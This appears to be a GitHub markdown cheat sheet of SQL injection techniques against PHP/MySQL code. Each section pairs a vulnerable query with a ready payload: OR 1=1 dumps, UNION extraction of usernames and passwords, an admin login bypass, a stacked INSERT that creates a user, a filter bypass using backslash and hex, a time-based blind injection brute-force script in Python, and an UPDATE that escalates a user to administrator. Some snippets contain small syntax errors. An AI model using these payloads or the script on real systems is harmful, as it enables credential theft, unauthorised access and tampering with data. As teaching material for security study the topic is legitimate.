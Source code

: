 # SQL injection

## Basic sql injection
```php
$query = "SELECT * FROM t WHERE name ="' . $name . "'";
name = ' OR 1=1 --
```


## Retrieving all info
Suppose following code
```php
$query = "SELECT * FROM t Where name = '" . $name . "'";
while ($row = mysql_fetch_assoc($result)) {
    echo $row['name'];
    echo $row['renter'];
    echo $row['book_location'];
}
```
if name is `' OR 1=1 – '`, result will contain all entries.
## Retrieving only one entry
Suppse following code
```php
$query = "SELECT name, memo FROM t Where id = '{$name}' " ;
$result = $conn->query($query);
$row = $result->fetch_assoc();
echo $row['name'];
echo $row['memo'];
}
```
We can see here that we can only take one entry from this code. We can get entries by using offset. If we write  `id = ' OR 1=1 LIMIT x, 1 – '` we get xth row from database.
## UNION Attack
Suppose following code
```php
$query = "SELECT item, description FROM t Where name = '{$name}' ";
$result = $conn->query($query); 
while ($row = $result->fetch_assoc($result)) {
    echo $row[0];
    echo $row[1];
}
```
From this code we konw that t database has item and description columns. And we know that there is a database named USERS which has username, password fields. So, we can make union attacks by applying this query `$name = random_string' UNION SELECT
username, password FROM USERS --'`. After applying this query it the first part SELECT may return nothing, but second part will return interesting entries for us. (Note: The number of columns should be same.)
## UNION Attack with modification of entry
Suppose code below
```php
$query = " SELECT username, passwd, sensitive_info FROM t WHERE userid = '{$id}' ";

$user = $result->fetch_assoc();

if ($passwd !== $user["passwd"]) {
    echo fail("Wrong password");
    $conn->close(); 
    exit;
}

echo success(array(
    "name" => $user["username"],
    "memo" => $user["memo"]
));
```
Suppose we want to find sensitive information of the user. But there is password checker which complicate the situation, as we need to know the password. We can here apply UNION query which will change some entries of the output. If id is equal to `%' UNION SELECT 'kek', 'kek', memo FROM t -- -'`, this will add new entries to the select whose username and passwd fields are kek. Then we can just run this query and payload password with kek. 

## Administration login
Suppose following code
```php
SELECT * WHERE user='{$name}' AND pwd='{$passwd}'
```
What if we set user and passwd to `' OR pwd LIKE '%`? It will log in with the credentials of the first person in the database (typically, administrator!).

## Multiple SQL Injection Attack (obsolete)
This was possible before php mysql functions get fixed. In previous versions of mysql functions it was possible to make multiple sql injection attack. You can just send `'; INSERT INTO USERS ('uname','passwd','salt') VALUES ('hacker','38a74f', 3234);` as input. In newer versions of php, if `multi_query` is used, we can perform this kind of attack. 

## Quote Bypass
Suppose this code, which returns error if input contains whitespaces or quotes
```php
if (preg_match("/( |\t|\r|\n|\s)/", $name)) // Check whitespaces
    die(fail("No whitespaces are allowed"));
if (preg_match("/(\'|\")/", $name)) // Check quotes
    die(fail("No quotes are allowed"));
$query = "SELECT username, memo FROM t Where id = '{$name}' and passwd = '{$passwd}' " ;
$result = $conn->query($query);
```
Here we can see that we can not simply write sql injection attack as before. But what if we inject `$name = '\'` and `$passwd = or/**/id=0x61646d696e#`. The query will look like this 
```php 
SELECT name, memo FROM t WHERE id = '\' and passwd = 'or/**/id=0x61646d696e#'
```
`\'` is same character form of `'`. So quote of `id = '` will finish at `passwd = '` which is followed with or statment. In order to make space between `or id=0x61646d696e` we can use `/**/` as space which is openning and closing comment. As we can't use quotes we can encode id as bytes. We can see that `0x61646d696e` corresponds to admin in ascii. 
## Blind SQL injection
Suppose this code
```php
$query = " SELECT username, passwd, memo FROM t WHERE userid = '{$id}' ";
$result = $conn->query($query);
if (!$result) {
    echo error("SQL query error: {$conn->error}");
    $conn->close();
    exit;
}
```
What if we know that there is user with admin rights. We can bruteforce his password using blind sql injection. We can inject id as `admin' and if(substr(passwd,1,1)='a', sleep(3),0) # `. If first character of admin's password is **a** we will get answer with 3 seconds delay. We can write script that will bruteforce the password. 
```python
import requests
import time
print("Starting the bruteforce")
address = "http://example.com/endpoint.php"
for i in range(1, 10):
    for j in range(47, 123):
        URL=address+"?id=admin%27 and if(substr(passwd,"+str(i)+",1)='" chr(j) +"', sleep(3),0) # "
        start = time.time()
        res = requests.get(URL)
        end = time.time()
        if (end-start > 1):
            print("Found character: ", chr(j))

```

## Exploiting UPDATE statement
Suppose following code
```php
UPDATE users SET user_password=md5('{$passwd}')
WHERE user_id='userid'
```
If we set $passwd to `badPwd'), user_level='103', user_aim=('????????` it will update user's roles to administrator. 

## Second order SQL injection attack
[YT video](https://youtu.be/FNTwAV4xH3o)
